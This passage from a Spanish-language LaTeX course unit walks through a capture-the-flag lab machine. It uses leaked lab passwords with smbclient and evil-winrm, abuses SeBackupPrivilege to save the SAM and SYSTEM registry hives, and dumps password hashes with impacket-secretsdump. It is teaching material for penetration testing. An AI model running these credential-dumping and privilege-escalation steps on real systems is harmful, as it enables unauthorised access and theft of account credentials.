  
\includegraphics{Unidades/unidad10/imagenes/13.png}
\item
  Con el comando smbclient -U david.orelious
  \textbackslash\textbackslash10.10.11.35\textbackslash DEV cuya
  password es aRt\$Lp\#7t*VQ!3, se ingresa a la carpeta con el comando
  get Backup\_script.ps1 obtenemos el archivo, y al abrir podemos
  encontrar lo que se observa en la imagen.

  
\includegraphics{Unidades/unidad10/imagenes/14.png}
\item
  Repetimos el procesimiento ahora para el usuario emily.oscars
  ~password: Q!3@Lp\#M6b\emph{7t}Vt

  
\includegraphics{Unidades/unidad10/imagenes/15.png}
\item
  Podemos utilizar otra herramienta llamada evil-winrm, la misma que
  permite establecer una sesión remota con el siguiente comando.
  evil-winrm -i 10.10.11.35 -u emily.oscars -p `Q!3@Lp\#M6b\emph{7t}Vt'
\end{enumerate}


\includegraphics{Unidades/unidad10/imagenes/16.png}

Ahora si nos movemos entre las carpetas encontraremos la primera
bandera.


\includegraphics{Unidades/unidad10/imagenes/17.png}

\begin{enumerate}
\def\labelenumi{\arabic{enumi})}
\setcounter{enumi}{12}
\item
  Para subir los privilegios, debemos conocer cuales son los privilegios
  que tenemos y lo podemos hacer con el comando Whoami /priv

  
\includegraphics{Unidades/unidad10/imagenes/18.png}
\end{enumerate}

Qué hace cada una de ellas.

• SeBackupPrivilege:\\
o Descripción: Permite realizar copias de seguridad de archivos y
directorios, incluso si no tienes permisos explícitos sobre ellos. o
Estado: Habilitado. Esto significa que puedes acceder a archivos
protegidos para leerlos o copiarlos.

• SeRestorePrivilege: o Descripción: Permite restaurar archivos y
directorios, lo que incluye sobrescribir archivos existentes incluso si
no tienes permisos de escritura sobre ellos. o Estado: Habilitado. Esto
puede permitir modificar archivos críticos del sistema.

• SeShutdownPrivilege: o Descripción: Permite apagar el sistema. Este
privilegio no se usa con frecuencia en explotación directa, pero es útil
en operaciones administrativas. o Estado: Habilitado. El usuario puede
apagar el sistema de manera controlada.

• SeChangeNotifyPrivilege: o Descripción: Permite al proceso ignorar
permisos al recorrer directorios, también conocido como ``bypass
traverse checking''. o Estado: Habilitado. Facilita el acceso a
directorios protegidos en sistemas con permisos restrictivos.

• SeIncreaseWorkingSetPrivilege: o Descripción: Permite aumentar el
conjunto de trabajo (working set) de un proceso, lo que puede ser útil
en operaciones que requieren más memoria. o Estado: Habilitado. Este
privilegio es menos relevante para la explotación.

Conociendo eso, ahora vamos a la carpeta config, con el comando cd
C:\Windows\System32\textbackslash config ahora Podemos realizar una
copia de los archivos SAM y SYSTEM que son utilizados para almacenar las
contraseñas de los usuarios en Windows.

No se puede utilizar el comando copy, porque no es en tiempo real, así
que podemos utilizar el comando reg. reg save
hklm\sam C:\Windows\Temp\sam y reg save
hklm\system C:\Windows\Temp\system

\begin{enumerate}
\def\labelenumi{\arabic{enumi})}
\setcounter{enumi}{13}
\item
  Ahora que se encuentra en una carpeta a la cual tenemos acceso,
  podemos descargarlo o transferirlo con el comando

  
\includegraphics{Unidades/unidad10/imagenes/19.png}
\item
  Haciendo ahora uso de la herramienta impacket-secretsdump podemos
  obtener el hash de los usuarios con el comando impacket-secretsdump
  -sam sam -system system LOCAL

  
\includegraphics{Unidades/unidad10/imagenes/20.png}
\item
  Con esa información ahora se puede crear una sesión remota con
  evil-WinRM
\end{enumerate}


\includegraphics{Unidades/unidad10/imagenes/21.png}

Finalmente buscamos la bandera entre los directorios y abrimos como se
observa en la siguiente imagen.

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/22.png}

}

\end{figure}



\end{document}
